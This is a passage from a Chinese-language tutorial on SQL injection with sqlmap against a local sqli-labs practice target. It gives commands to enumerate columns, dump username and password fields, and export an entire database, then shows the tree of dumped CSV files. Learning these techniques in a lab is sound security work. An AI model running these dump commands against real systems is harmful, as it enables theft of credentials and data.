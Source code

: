 **（4）使用 --columns 参数枚举字段名**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --columns -T "users" -D "security"
```

<Image alt="Drawing 14.png" src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y70mAVarDAAB9o-Ikd5A077.png"/>  
图 15：使用 --columns 参数枚举字段名

**（5）使用 --dump 参数批量获取字段值**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump -C "id,password,username" -T "users" -D "security"
```

<Image alt="Drawing 15.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y71GANTBrAAFu3OCaUR4397.png"/>  
图 16：使用 --dump 参数批量获取字段值

**（6）使用 --dump-all 参数导出整个数据库**。

这个方法耗时较长，还有很多无价值信息，但却是最简单的拖库姿势，示例命令如下：

```java
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump-all
```

上述方法导出的数据文件存放路径会在命令行给出，数据以 csv 文件形式保存到本地：

```shell
Ubuntu# pwd
/root/.local/share/sqlmap/output/localhost/dump
Ubuntu# tree
.
├── challenges
│   └── 6EAED22Z6T.csv
├── information_schema
│   ├── CHARACTER_SETS.csv
│   ├── COLLATION_CHARACTER_SET_APPLICABILITY.csv
│   ├── COLLATIONS.csv
│   ├── COLUMN_PRIVILEGES.csv
│   ├── COLUMNS.csv
│   ├── ......
│   ├── SCHEMATA.csv
│   ├── SESSION_STATUS.csv
│   ├── SESSION_VARIABLES.csv
│   ├── STATISTICS.csv
│   ├── USER_PRIVILEGES.csv
│   └── VIEWS.csv
├── mysql
│   ├── help_category.csv
│   ├── help_keyword.csv
│   ├── help_relation.csv
│   ├── help_topic.csv
│   ├── proxies_priv.csv
│   ├── servers.csv
│   └── user.csv
├── performance_schema
│   ├── cond_instances.csv
│   ├── ......
│   └── threads.csv
└── security
    ├── emails.csv
    ├── referers.csv
    ├── uagents.csv
    ├── users.csv
    └── users.csv.1
```